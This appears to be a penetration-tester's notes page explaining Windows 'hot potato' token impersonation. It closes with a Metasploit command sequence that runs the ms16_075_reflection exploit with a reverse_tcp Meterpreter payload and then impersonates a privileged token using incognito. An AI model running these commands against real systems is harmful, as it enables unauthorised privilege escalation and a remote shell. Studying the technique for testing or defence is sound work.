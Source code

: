 --- ---

<h2>General</h2>

Token impersonation is a technique that allows a user or process to assume the identity of another user or process in order to access resources or perform actions that would not normally be allowed. In the context of Windows operating systems, token impersonation is often used to gain access to resources or perform actions that require higher privileges.

Token impersonation with "hot potato" refers to a technique used in Windows exploitation that involves stealing an authentication token from a privileged process and using it to impersonate a user with higher privileges. This allows an attacker to perform actions that the user would not normally have the permissions to do.

To perform token impersonation with "hot potato," the attacker typically uses a vulnerability in a process that is running with higher privileges to inject code into the process. This code then steals the authentication token from the process and uses it to impersonate the user associated with the token. The attacker can then use this impersonated token to perform actions on the system that would normally require higher privileges.

It's important to note that this technique requires the attacker to already have some level of access to the system, as they need to be able to inject code into a privileged process in order to steal the authentication token. However, once they have successfully stolen the token through the "hot potato" attack, they can use it to escalate their privileges and gain further access to the system.

More info about the hot potato exploit ---> https://foxglovesecurity.com/2016/01/16/hot-potato/

Hot Potato ---> Manual Option
Meterpreter ---> Automated Option

---

<h2>Commands</h2>

Those command should be run in a meterpreter session where you already have initial access to the target

```
# Use Exploit
use exploit/windows/local/ms16_075_reflection
set payload windows/x64/meterpreter/reverse_tcp
show options
set Session X
run

# Check Tokens 
session X
load incognito
list_tokens -u
impersonate_token "TOKEN CHOOSED"
getuid
```
